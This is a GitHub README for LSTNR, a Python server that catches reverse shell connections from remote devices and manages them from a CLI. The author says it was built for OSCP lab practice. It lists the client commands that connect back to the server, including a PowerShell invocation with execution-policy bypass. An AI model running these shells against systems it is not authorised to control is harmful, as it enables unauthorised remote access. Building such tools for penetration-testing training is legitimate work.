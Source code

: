 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

<img width="666" alt="Screenshot 2025-01-03 at 6 36 01 PM" src="https://github.com/user-attachments/assets/9f1a5adb-3981-42cb-9855-3d847ec16c53" />

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`

# Screenshot examples:
- Client connects to <LSTNR_SERVER>
<img width="702" alt="Screenshot 2025-01-04 at 10 49 03 PM" src="https://github.com/user-attachments/assets/c3027a17-1340-4f64-ac6c-776046003fd9" />

- LSTNR Server catches connection, and is able to manage remote device
<img width="722" alt="Screenshot 2025-01-04 at 10 48 47 PM" src="https://github.com/user-attachments/assets/4725cf8a-4ab0-47b7-9d36-acf0e5256f99" />
